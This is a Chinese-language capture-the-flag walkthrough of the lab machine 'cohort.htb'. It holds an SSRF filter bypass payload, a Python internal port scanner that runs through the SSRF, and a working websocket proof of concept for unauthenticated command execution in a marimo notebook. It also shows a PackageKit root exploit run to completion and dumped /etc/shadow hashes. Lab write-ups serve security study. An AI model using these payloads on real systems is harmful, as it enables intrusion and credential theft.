



# Recon
```
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp  open  http     syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
| http-methods:
|_  Supported Methods: POST OPTIONS
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
```

ttl 63: Linux 机器的预期一跳后数值, 服务运行在 Host 上

# 443 - cohort.htb
80 无法访问, 推测为类似 http转https 架构, 访问 443 得到域名: `cohort.htb`



一家做分析的公司, 主页有两个公司内人名:
1. Mara Quinteros
2. Devin Oyelaran

## Tech Stack
```http
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 05 Aug 2026 13:52:59 GMT
Content-Type: text/html
Last-Modified: Mon, 01 Jun 2026 20:53:47 GMT
Connection: keep-alive
ETag: W/"6a1df15b-38c"
Content-Length: 908
```

Web 基础设施为 Nginx, 可能反向代理着另一个子域名, 子域名扫描无结果
```sh
________________________________________________
 :: Method           : GET
 :: URL              : https://10.129.25.193:443
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.cohort.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
:: Progress: [20000/20000] :: Job [1/1] :: 44 req/sec :: Duration: [0:57:51] :: Errors: 218 ::
```

## SSRF on protal.html
网页上有一个数据源测试页面, 输入一个 URL, 服务器尝试 fetch 并返回结果, 还能选格式, 挺贴心的:


```sh
goshs -i utun4 -p 1337
WARNING[2026-08-05 22:02:49] There is a newer Version (v2.1.5) of goshs available. Run --update to update goshs.
  __ _  ___  ___| |__  ___
 / _` |/ _ \/ __| '_ \/ __|
| (_| | (_) \__ \ | | \__ \
 \__, |\___/|___/_| |_|___/
  __/ |
 |___/              v2.0.3

INFO   [2026-08-05 22:02:49] Download embedded file at: /example.txt?embedded
INFO   [2026-08-05 22:02:49] Serving on 10.10.17.92:1337
INFO   [2026-08-05 22:02:49] Serving HTTP from /Users/r3vert/0x5t4ckc47/box/htb/cohort
ERROR  [2026-08-05 22:03:16] 10.129.25.193:34564 - [404] - "GET /test HTTP/1.1"
```

请求格式如下, 省略一些不必要标头:
```http
POST /api/validate HTTP/1.1
Host: cohort.htb
Referer: https://cohort.htb/portal.html
Content-Type: application/json
Content-Length: 54
Origin: https://cohort.htb
Connection: keep-alive

{"url":"http://10.10.17.92:1337/test","format":"json"}
```

测试 SSRF, 过滤了一些地址, 拿速查单喂它: 
```json
{"ok": false, "message": "Internal or loopback addresses are not permitted."}
```

经过测试 `http://0x7f.0x0.0x0.0x1:80/` 可行, 当请求可到达与不可到达时分别为:
```json
{"ok": true, "fetched_status": 200, "content_type": "text/html", "preview": "....", "message": "Source reachable."}
{"ok": false, "message": "Could not reach the source: [Errno 111] Connection refused"}
```

尝试测试内部端口, 让 grok 生成了一串最常用 web端口:
```python
import requests
from time import sleep

url = 'https://cohort.htb/api/validate'
openport = []
def checkport(port):
    data = {
        "url": f'http://0x7f.0x0.0x0.0x1:{port}',
        "format": "json"
    }
    r = requests.post(url, json=data, verify=False)
    print(r.json())
    if "Could not reach the source:" in r.json()["message"]:
        print(f'{port} no')
    else:
        print(f'{port} yes')
        print(r.json())
        openport.append(port)

def attack():
    with open("./ports", "r") as f:
        for line in f:
            checkport(int(line))
            sleep(0.1)
    print(openport)
attack()
```

由于 python 会给出一个超长警告, 就不展示原始输出, 最后探测出以下端口: `80`, `443`, `5000`, `8888`

```json
// 5000
{'ok': True, 'fetched_status': 405, 'content_type': 'application/json', 'preview': '{"ok": false, "message": "Method not allowed."}', 'message': 'Source responded with an error status.'}
// 80
{'ok': True, 'fetched_status': 200, 'content_type': 'text/html', 'preview': '<!doctype html>\n<html lang="en">\n<head>\n<meta charset="utf-8">\n<meta name="viewport" content="width=device-width, initial-scale=1">\n<title>Cohort Analytics...', 'message': 'Source reachable.'}
// 8888
{'ok': True, 'fetched_status': 200, 'content_type': 'text/html; charset=utf-8', 'preview': '<form method="POST" action="/auth/login"... ', 'message': 'Source reachable.'}
```

从 HTML 代码来看 80 的内容与 443 无区别, 5000 则是连 `get` 请求都不接受, 转向 `8888`
但目标 web 基础设施为 nginx, 其根据 vhosts 进行反向代理, 我们需要知道 vhosts

当我搜索所有 nginx 会附加到 web 上的页面时, gemini 提供了一条有趣的信息, `Stub Status Page` 看起来像一个 debug 页面, 虽然其不是默认开启, 但值得尝试
:::tips
Stub Status Page: A minimal, plain-text status page enabled via the stub_status directive. It provides real-time metrics on current active connections, accepted requests, and reading/writing tasks.
:::

搜索 `Stub Status Page` 又发现了这个页面: https://nginx.org/en/docs/http/ngx_http_status_module.html

其指出该页面在 `/status` 或 `/status.html`, 经过测试只有 `80` 返回了结果:
```json
{"service":"cohort-edge","status":"ok","generated_by":"nginx","upstreams":[{"name":"marketing","host":"cohort.htb","root":"/var/www/cohort"},{"name":"insights-api","host":"cohort.htb","path":"/api/","target":"127.0.0.1:5000"},{"name":"notebooks","host":"nb-1be3782a8afd3ad5.cohort.htb","target":"127.0.0.1:8888","note":"internal analyst workspace, not for external use"}]}
```
其指出以下内容:
1. `5000` insights-api 对应 `cohort.htb/api` 下的内容, 也是上文存在 ssrf 的 api
2. `8888` notebooks, 对应 `nb-1be3782a8afd3ad5.cohort.htb` 一个未知程序

# nb-1be3782a8afd3ad5.cohort.htb 
添加 hosts, 点开是一个登陆框


## Tech stack
```http
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 05 Aug 2026 15:17:43 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
x-frame-options: DENY
x-content-type-options: nosniff
vary: Cookie
Content-Length: 1304
```
HTTP 头没什么有趣信息, 但页面标题指出这是一个 `marimo` , 一个 AI 驱动的在线 notebook 应用
```html
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>marimo</title>
</head>
```

## CVE-2026-39987
一个已知程序, 搞不定登陆, 转向公开利用, 搜索后聚焦在 CVE-2026-39987

用 github issues 上的 poc 测试, 修正一下 ssl 问题并添加交互:
```python
import websocket
import time
import ssl
# Connect without any authentication
url = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"
ws = websocket.create_connection(url, sslopt={"cert_reqs": ssl.CERT_NONE})
time.sleep(2)
# Drain initial output
try:
    while True:
        ws.settimeout(1)
        ws.recv()
except:
    pass
# Execute arbitrary command
ws.settimeout(10)
while True:
    c = input("cmd$")
    ws.send(c + '\r')
    print(ws.recv()) 
ws.close()
```
实话实说我没想明白为什么改成交互式后命令是可以被执行的但之前不行, 或许是按回车的 `\n`

# shell as marimo
一些枚举, 很不幸, 由于 `marimo` 的 shell 配置为 `nologin`, 其无法通过 ssh 登陆;
```sh
(remote) marimo@cohort:/var/www/cohort$ id
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)
(remote) marimo@cohort:/var/www/cohort$ cat /etc/passwd|grep 'sh$'
root:x:0:0:root:/root:/bin/bash
(remote) marimo@cohort:/var/www/cohort$ find / -type f -perm -04000  2>/dev/null
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/chsh
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
(remote) marimo@cohort:/var/www/cohort$ systemctl list-timers
NEXT                            LEFT LAST                              PASSED UNIT                           ACTIVATES
Wed 2026-08-05 16:20:00 UTC     8min Wed 2026-08-05 16:10:12 UTC  1min 0s ago sysstat-collect.timer          sysstat-collect.service
... all standard
(remote) marimo@cohort:/var/www/cohort$ env
SHELL=/bin/bash
HISTCONTROL=ignorespace
MEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=
PWD=/var/www/cohort
LOGNAME=marimo
MARIMO_SKIP_UPDATE_CHECK=1
SYSTEMD_EXEC_PID=1628
HOME=/home/marimo
...
(remote) marimo@cohort:/var/www/cohort$ crontab -l
no crontab for marimo
(remote) marimo@cohort:/var/www/cohort$ cat /etc/crontab
SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
(remote) marimo@cohort:/var/www/cohort$ ps -ef
...
marimo      1628  0.2  1.4 290636 58852 ?        Ssl  13:01   0:33 /opt/marimo/venv/bin/python3 /opt/marimo/venv/bin/marimo edit /home/marimo/notebooks/retention.py --headless --host 127.0.0.1 -p 8888 --token --token-password YKQ6iPyO5kusNx0BpVAPfjP5 --skip-update-check --no-sandbox
...
```
没什么有趣的进程, 可以从notebook进程中提取出来token: `YKQ6iPyO5kusNx0BpVAPfjP5`, 但无法用于密码复用

网络情况:
```sh
(remote) marimo@cohort:/home/marimo$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:ca:97 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.129.25.193/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 2007sec preferred_lft 2007sec
    inet6 dead:beef::250:56ff:feb9:ca97/64 scope global dynamic mngtmpaddr
       valid_lft 86391sec preferred_lft 14391sec
    inet6 fe80::250:56ff:feb9:ca97/64 scope link
       valid_lft forever preferred_lft forever

(remote) marimo@cohort:/home/marimo$ ss -ltnp
  State         Local Address:Port
  LISTEN        127.0.0.1:39845
  LISTEN        127.0.0.1:5000
  LISTEN        0.0.0.0:443
  LISTEN        0.0.0.0:80
  LISTEN        127.0.0.1:8888
  LISTEN        0.0.0.0:22
  LISTEN        127.0.0.54:53
  LISTEN        127.0.0.53%lo:53
  LISTEN        [::]:22

```


## Pack2TheRoot - CVE-2026-41651
我运行了 linpeas, 它给出了一条有趣的漏洞利用:
```sh
╔══════════╣ Checking for PackageKit Pack2TheRoot (CVE-2026-41651) (T1068)
╚ https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html
PackageKit version detected: 1.2.8-2ubuntu1.2
Vulnerable to CVE-2026-41651 (Pack2TheRoot) - PackageKit 1.2.8-2ubuntu1.2 is below the Ubuntu 24.04 fixed version: 1.2.8-2ubuntu1.5
```

公开 POC 如下: https://github.com/Vozec/CVE-2026-41651

download, chmod, runit and root3d!
```sh
(remote) marimo@cohort:/home/marimo$ ./exp-donot-run-it
═══════════════════════════════════════════════════
 CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-58888.deb
[+] payload : /tmp/.pk-payload-58888.deb
[*] Transaction : /2_ecadeeac
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 0 ms)
[*] Loop ran for 37 ms
[*] Polling for payload (120 s max)...
[*] t+1s: payload=exists dpkg_lock=free suid=not yet
[*] t+2s: payload=exists dpkg_lock=free suid=not yet

[+] SUCCESS — SUID bash at t+1100ms
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
.suid_bash: cannot set terminal process group (-1): Inappropriate ioctl for device
.suid_bash: no job control in this shell
(remote) root@cohort:/home/marimo#
```

# root3d!
```sh
(remote) root@cohort:/root# cat /etc/shadow
root:$y$j9T$NyVfe7HDIJs5KIhAZn1r40$F58We2A4FJ7FL96d5wESpvR7T56dShAiCVuE5C5rrqD:20605:0:99999:7:::
insights:$y$j9T$6a6riZSRtZ4kTr56MDcLt1$6ykp6ipFj3fsNPCGBdZCi6EZ3VuCsxT10AuVoHXJsv5:20605::::::
marimo:$y$j9T$O0sZ4M1MX4ztZHZk3ggQO.$GVhu.vPHMss7D4npAVMcAXioAtjAtIU5yOGE7LtTSr/:20605:0:99999:7:::
```
